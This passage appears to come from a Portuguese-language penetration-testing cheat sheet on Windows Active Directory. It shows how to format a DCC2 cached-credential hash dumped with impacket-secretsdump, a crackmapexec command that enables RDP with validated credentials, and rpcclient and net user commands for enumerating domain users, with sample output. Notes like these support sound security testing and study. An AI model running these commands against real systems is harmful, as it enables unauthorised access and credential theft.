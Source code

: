 formatando hash do impacket-secretdump
```
hash capturada:
ORIONSCORP2.LOCAL/thenrique:$DCC2$10240#thenrique#bffd65356630d9a479f8e6761f56393d:

hash formatada:
$DCC2$10240#thenrique#bffd65356630d9a479f8e6761f56393d
```

**Habilitando RDP com credenciais validadas:**
```
crackmapexec smb HOST -u USER -p PASS -M rdp
```

## enumeração de usuários do dóminio (AD)
```
rpcclient -W WORKGROUP -U USER HOST
```

enumera os usuarios do dominio
```
rpcclient $> enumdomusers
user:[Administrador] rid:[0x1f4]
user:[Convidado] rid:[0x1f5]
user:[DefaultAccount] rid:[0x1f7]
user:[Usuario] rid:[0x3e9]
user:[WDAGUtilityAccount] rid:[0x1f8]
```

enumera os grupos do dominio
```
rpcclient $> enumdomgroups 
group:[None] rid:[0x201]
```

enumera os membros de um grupo
```
rpcclient $> querygroupmem 0x201
        rid:[0x1f4] attr:[0x7]
        rid:[0x1f5] attr:[0x7]
        rid:[0x1f7] attr:[0x7]
        rid:[0x1f8] attr:[0x7]
        rid:[0x3e9] attr:[0x7]

```

query pra usuario WDAGUtilityAccount
```
queryuser 0x1f8
```

lista os comandos
```
rpcclient $> help
```
## enumeração de usuários
**enumerar usuários locais**
```
net user

User accounts for \\EC2AMAZ-I8UHO76

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
Jenny                    John
The command completed successfully.
```

